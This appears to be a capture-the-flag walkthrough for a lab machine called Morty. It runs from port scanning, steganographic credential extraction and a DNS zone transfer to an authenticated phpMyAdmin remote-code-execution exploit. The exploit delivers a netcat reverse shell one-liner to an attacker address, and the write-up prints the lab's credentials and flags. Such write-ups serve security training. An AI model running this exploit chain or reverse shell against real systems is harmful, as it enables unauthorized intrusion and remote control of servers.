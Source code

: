 ```yaml
---
categories: [PwnTillDawn , Walkthrough]
tags: [vhost, Public Exploit]
image:
  path: /Vulnhub-Files/img/Morty/Untitled.png
  alt: Morty -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.57
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 16:22 IST
Nmap scan report for 10.150.150.57
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

On port 80 I found directory Listing which consist of a file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Morty/Untitled%202.png)

After setting the `/etc/hosts` file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%203.png)

Now lets use this Web Page picture password in SSH , but no luck so I used this password in this picture to extract some data and I got it with this Password : `Fl4sk#!` →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ steghide extract -sf screen.jpeg
Enter passphrase: 
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```

Now again I tried for SSH but no luck , what to do →

After sometime I looked for vhost or subdomains and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ dig axfr @10.150.150.57 mortysserver.com 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.150.150.57 mortysserver.com
; (1 server found)
;; global options: +cmd
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.	900	IN	NS	10.150.150.57.
rickscontrolpanel.mortysserver.com. 900	IN A	10.150.150.57
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 187 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Sat Aug 05 16:48:59 IST 2023
;; XFR size: 4 records (messages 1, bytes 212)
```

Now I have 2 subdomains →

Lets look at them →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%204.png)

```bash
FLAG1=921e4db975bda77543cfe83fbe176d15e09ce7e2
```

Now I used the rick credentials and got logged in and got the 2nd Flag too →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%205.png)

```bash
FLAG2=e39c995fbf614c5c38ca7343f59cc310e5880251
```

Now I searched the phpmyAdmin exploit and I got it →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ searchsploit phpMyAdmin 4.8.1
----------------------------------------------------------------------
 Exploit Title                                                                                |  Path
----------------------------------------------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                   | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                   | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                | php/webapps/50457.py
----------------------------------------------------------------------
Shellcodes: No Results
```

Now lets use the RCE exploit in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' whoami  
www-data
```

Since it is working so lets upload the reverse shell script here →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.67.202 4444 >/tmp/f'
```

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.57] 40096
/bin/sh: 0: cant access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ whoami
whoami
www-data
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```

Now I got the last FLAG →

```bash
www-data@morty:/home/morty$ cat FLAG3.txt
cat FLAG3.txt
73ce6cecfc1109f1e43d379fd9922dcc699af321
www-data@morty:/home/morty$
```

And I do not get to root since it doesnt give anything to get me to root so finish !!